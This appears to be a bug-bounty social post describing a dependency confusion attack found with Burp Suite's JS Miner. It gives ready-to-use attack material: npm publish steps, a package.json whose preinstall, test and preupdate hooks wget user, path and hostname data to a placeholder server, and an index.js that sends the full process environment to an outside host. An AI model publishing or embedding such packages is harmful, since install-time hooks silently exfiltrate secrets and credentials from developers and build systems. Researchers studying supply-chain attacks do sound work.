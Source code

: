 ⚡Dependency Confusion via JS Miner

@GodfatherOrwa just landed a clean P1 by leveraging JS Miner in Burp Suite 🔥

Here’s how it went down 👇

🧩 After crawling all endpoints, he went to:
Target ➝ Extensions ➝ JS Miner ➝ Run All Passive Scans

💥 That’s when he spotted: [JS Miner] Dependency Confusion
The vulnerable package was unclaimed on NPM 👀

📦 Next steps he followed:

```
    npm login
    mkdir <package-name> && cd <package-name>
    npm init -y
    npm publish --access public

```

package.json

```json
{
  "name": "====>Replace This wite The Package NAME",
  "version": "10.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preinstall": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preupdate": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" "
  },
  "author": "orwa",
  "license": "ISC"
  }
}
```

index.js 

```js
const os = require('os');
const https = require('https');

const data = JSON.stringify({
  hostname: os.hostname(),
  env: process.env,
  cwd: process.cwd(),
});

const options = {
  hostname: 'z.wbx.lt',
  port: 443,
  path: '/log',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': data.length
  }
};

const req = https.request(options, res => {});
req.write(data);
req.end();

```

After claiming the package, he injected an RCE payload via package.json
🧪 Full POC: [https://github.com/orwagodfather/NPM-RCE](https://github.com/orwagodfather/NPM-RCE)

💣 Result? A solid P1 vulnerability and a perfect example of how effective Dependency Confusion still is.

Props to @GodfatherOrwa for consistently dropping fire techniques 🔥
